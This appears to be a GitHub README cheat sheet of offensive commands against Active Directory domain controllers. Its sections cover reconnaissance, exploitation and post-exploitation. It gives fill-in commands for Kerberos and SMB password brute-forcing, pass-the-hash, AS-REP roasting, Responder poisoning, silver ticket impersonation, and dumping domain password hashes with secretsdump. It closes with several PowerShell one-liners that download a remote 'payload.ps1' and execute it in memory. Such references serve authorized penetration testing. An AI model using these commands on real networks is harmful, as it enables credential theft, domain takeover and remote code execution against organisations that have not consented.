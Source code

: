 <pre>
               _   _             _____  _               _                   
     /\       | | (_)           |  __ \(_)             | |                  
    /  \   ___| |_ ___   _____  | |  | |_ _ __ ___  ___| |_ ___  _ __ _   _ 
   / /\ \ / __| __| \ \ / / _ \ | |  | | | '__/ _ \/ __| __/ _ \| '__| | | |
  / ____ \ (__| |_| |\ V /  __/ | |__| | | | |  __/ (__| || (_) | |  | |_| |
 /_/    \_\___|\__|_| \_/ \___| |_____/|_|_|  \___|\___|\__\___/|_|   \__, |
                                                                       __/ |
                                                                      |___/ 
               ___ _                _   __ _               _   
              / __\ |__   ___  __ _| |_/ _\ |__   ___  ___| |_ 
             / /  | '_ \ / _ \/ _` | __\ \| '_ \ / _ \/ _ \ __|
            / /___| | | |  __/ (_| | |__\ \ | | |  __/  __/ |_ 
            \____/|_| |_|\___|\__,_|\__\__/_| |_|\___|\___|\__|
                                                   
</pre>

### A compilation of tools and techniques targeting Active Directory and Domain Controlers.


#### 0x00 Mind Map
[Pentesting Active Directory](https://www.xmind.net/m/5dypm8/)


#### 0x01 Recon & Enumeration

##### [ARP-Scan](https://github.com/royhills/arp-scan)
Host discovery:

`arp-scan --interface=<INTERFACE> --localnet`


#### [Impacket-GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py)
Get user's non-preauth AS-Rep TGT:

`getnpusers <domain_name>/<user> -dc-ip=<domain_controller_ip>`

##### [Kerbrute](https://github.com/ropnop/kerbrute)
Enumerate or validate accounts through Kerberos Pre-Authentication [aka Pre-auth Bruteforcing]:

`kerbrute userenum --dc <DOMAIN CONTROLLER> -d <DOMAIN> <WORDLIST>` 


##### [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
Brute-force with User&Pass combinations:

`crackmapexec smb <IP> -u <USER LIST> -P <PASSWORD>`

Pass-The-Hash

`crackmapexec smb <HOST/RANGE> -u <USER> -H <NTLM HASH>`


##### [gMSADumper](https://github.com/micahvandeusen/gMSADumper)
LDAP Enumeration

`python3 gMSADumper.py -u <USER> -p <PASSWORD> -d <DOMAIN>`


#### 0x02 Exploitation

##### [Responder](https://github.com/lgandx/Responder/)

Listening for events:

`responder -I <NETWORK INTERFACE> -A`

##### [Impacket-getSTX](https://github.com/SecureAuthCorp/impacket)

Silver Ticket Attack

`python3 getST.py <DOMAIN>/<USER>$ -spn WWW/<DOMAIN CONTROLLER> -hashes :<HASH> -impersonate <USER TO IMPERSONATE>`


#### 0x03 Post-Exploitation

##### [KrbRelayX](https://github.com/dirkjanm/krbrelayx)

Add DNS records:

`python3 dnstool.py -u '<DOMAIN>\<USER>' -p '<PASSWORD>' -a add -r '<RECORD.DOMAIN>' -d <YOUR IP> <MACHINE IP>`

##### [Impacket-getADUser](https://github.com/SecureAuthCorp/impacket)

Authenticated User Enumeration

`python3 GetADUsers.py -all <DOMAIN>/<USER>:<PASS> -dc-ip <IP ADDRESS>`


##### [Impacket-SecretsDump](https://github.com/SecureAuthCorp/impacket)

Dump User Hashes from Domain Controller

`python3 secretsdump.py <DOMAIN>/<USER>:<PASS>@<MACHINE>`

##### Downloading files via PowerShell
`iex (New-Object Net.WebClient).DownloadString('http://server/payload.ps1')`


`$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$false;$ie.navigate('http://server/payload.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response`

###### PSv3 & onwards
`iex (iwr 'http://server/payload.ps1')`


`$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://server/payload.ps1',$false);$h.send();iex
$h.responseText`


`$wr = [System.NET.WebRequest]::Create("http://server/payload.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()`

